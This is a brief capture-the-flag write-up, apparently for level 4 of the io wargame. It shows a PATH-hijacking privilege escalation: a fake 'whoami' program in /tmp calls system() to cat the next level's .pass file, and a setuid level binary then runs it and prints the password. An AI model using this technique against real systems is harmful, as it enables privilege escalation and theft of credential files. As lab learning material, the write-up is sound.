 #level4

1. Create a whoami executable in /tmp/whatever

```
int	main()
{
	system("/bin/cat /home/level5/.pass");
}
```

2.

```
export PATH=/tmp/whatever
```

3.
```
level4@io:/tmp/ajean$ /levels/level04
Welcome PASSWORD
```
